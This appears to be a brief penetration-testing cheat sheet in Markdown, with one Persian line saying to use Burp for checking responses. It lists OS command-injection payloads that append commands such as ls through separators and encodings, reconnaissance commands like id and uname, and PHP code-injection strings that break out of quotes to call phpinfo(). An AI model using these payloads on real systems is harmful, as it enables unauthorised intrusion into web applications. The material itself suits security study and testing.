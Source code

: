 # Remote Command Execution

## Concept
- باید از Burp برای بررسی Response استفاده کنیم


## Payloads
```
;ls
;%20ls
&ls
&&ls
|ls
||ls
%0Als
```

## Useful commands
- ```pwd```
- ```uname```
- ```id```
- ```hostname```
- ```ps aux```

# Code Execution

## Payload
```
a";phpinfo();//
a".phpinfo();//
a);}phpinfo();//
```

## Sample PHP executable
- https://www.php.net/manual/en/function.shell-exec.php

